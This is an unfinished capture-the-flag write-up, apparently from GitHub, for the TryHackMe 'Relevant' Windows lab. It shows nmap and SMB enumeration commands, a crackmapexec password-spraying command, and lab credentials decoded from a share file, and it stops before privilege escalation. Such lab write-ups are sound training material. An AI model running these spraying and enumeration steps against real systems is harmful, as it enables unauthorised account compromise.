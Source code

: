 # Penetration Test Summary: TryHackMe - Relevant

**Target IP:** 10.10.186.89
**Assessment Type:** Black-box Penetration Test
**Objective:** Obtain user.txt and root.txt flags
**OS Detected:** Windows Server 2016 Standard Evaluation (x64)


## Initial Reconnaissance

**Nmap Scan Command:**

```bash
sudo nmap 10.10.186.89
```

**Open Ports Identified:**

* 80/tcp – HTTP (IIS Web Server)
* 135/tcp – Microsoft RPC
* 139/tcp, 445/tcp – SMB/NetBIOS
* 3389/tcp – RDP (Network Level Authentication enabled)

Initial enumeration suggested a Windows Server environment with SMB and RDP as high-value targets. Port 80 hosted a default IIS web page with no obvious attack surface.


## SMB Enumeration & Weak Credential Discovery

**Anonymous SMB Access Attempt:**

```bash
smbmap -H 10.10.186.89
enum4linux -a 10.10.186.89
nmap --script smb-enum-users.nse -p445 10.10.186.89
```

**Result:** Anonymous enumeration restricted. No users or shares discovered.

---

## Credential Spraying (SMB)

**Tool Used:** crackmapexec

```bash
crackmapexec smb 10.10.186.89 -u users.txt -p top100.txt --continue-on-success
```

**Valid Credentials Found:**

```
Relevant\user
Relevant\admin
Relevant\test
Relevant\info
Relevant\adm
Relevant\mysql
Relevant\oracle
Relevant\ftp
Relevant\pi
Relevant\puppet
Relevant\ansible
Relevant\ec2-user
Relevant\vagrant
Relevant\azureuser
```


## Access to SMB Share: nt4wrksv

**SMB Share Enumeration:**

```bash
smbclient -L //10.10.186.89/ -U user
```

**Shares Accessible:**

* ADMIN\$ – Remote Admin (restricted)
* C\$ – Default drive (restricted)
* IPC\$ – Interprocess comms
* nt4wrksv – Custom share (accessible)

**Downloaded Credentials from Share:**

```bash
smbclient //10.10.186.89/nt4wrksv -U user
get passwords.txt
```

**Contents of passwords.txt:**

```
[User Passwords - Encoded]

Qm9iIC0gIVBAJCRXMHJEITEyMw== → Bob - !P@$W0rD!123  
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk → Bill - Juw4nnaM4n4206969!$$  
```

Password reuse or weak default credentials discovered.


## Valid SMB Access as User: bill

```bash
smbclient -L //10.10.186.89/ -U bill
```

**Access Granted To:**

* ADMIN\$, C\$ (listed, but restricted)
* nt4wrksv – accessible again with the same contents

Bill's credentials provided valid user-level access but did not grant elevated permissions.

TBC...

## Summary

| Vector   | Result                          |
| -------- | ------------------------------- |
| SMB      | Credential reuse → valid logins |
| HTTP     | IIS default page only           |
| RDP      | Live with NLA enabled           |
| Priv Esc | Pending                         |
